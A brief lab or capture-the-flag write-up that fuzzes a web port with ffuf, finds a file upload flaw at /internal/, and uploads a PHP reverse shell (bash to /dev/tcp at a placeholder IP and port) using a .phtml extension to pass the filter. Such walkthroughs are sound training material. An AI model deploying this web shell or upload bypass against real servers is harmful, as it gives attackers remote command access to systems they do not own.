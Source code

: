 # Directory Brute Forcing

I have fuzzed the http port using the tool: **FUZZ**

```json
ffuf -u http://10.10.155.145:3333/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

![[Pasted image 20250807130720.png]]

# File Upload Vulnerability

The */internal/* path is vulnerable to **File Upload**

![[Pasted image 20250807130951.png]]


# Getting the reverse shell

```json
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'");
?>
```

Then i have saved this command to the following file: *reverse_shell.phtml. The file upload vulnerability is working only with .phtml extension.

![[Pasted image 20250812165141.png]]

